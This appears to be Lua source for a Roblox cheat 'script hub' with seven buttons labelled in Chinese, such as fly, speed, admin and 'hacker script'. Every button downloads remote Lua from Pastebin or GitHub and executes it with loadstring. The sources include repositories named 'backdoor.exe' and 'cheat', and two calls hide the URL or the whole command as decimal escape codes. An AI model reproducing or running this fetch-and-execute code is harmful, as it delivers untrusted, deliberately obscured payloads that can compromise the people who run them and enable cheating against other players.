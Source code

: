 Tab:AddButton({
	Name = "飞行",
	Callback = function()
      	loadstring(game:HttpGet("https://pastebin.com/raw/U27yQRxS"))()
  	end    
})

Tab:AddButton({
	Name = "地岩",
	Callback = function()
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\98\98\97\109\120\98\98\97\109\120\98\98\97\109\120\47\99\111\100\101\115\112\97\99\101\115\45\98\108\97\110\107\47\109\97\105\110\47\37\69\55\37\57\57\37\66\68\34\41\41\40\41")()
	end
})

Tab:AddButton({
	Name = "dx旧版本",
	Callback = function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/DXuwu/test-lol/main/YO.lua"))()
end
})

Tab:AddButton({
	Name = "黑客脚本",
	Callback = function()
loadstring(game: HttpGet("https://raw.githubusercontent.com/BirthScripts/Scripts/main/c00l.lua"))()
    end
})

Tab:AddButton({
	Name = "管理员",
	Callback = function()
loadstring(game: HttpGet(('https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua'),true))()
    end
})

Tab:AddButton({
	Name = "极速",
	Callback = function()
      	loadstring(game:HttpGet('\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\98\111\121\115\99\112\47\98\101\116\97\47\109\97\105\110\47\37\69\57\37\56\48\37\57\70\37\69\53\37\66\65\37\65\54\37\69\55\37\56\50\37\66\56\37\69\56\37\66\53\37\66\55\46\108\117\97'))()
  	end
})

Tab:AddButton({
  Name = "力量",
  Callback = function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/BoaHacker/ROBLOX/main/cheat', true))()
  end
})
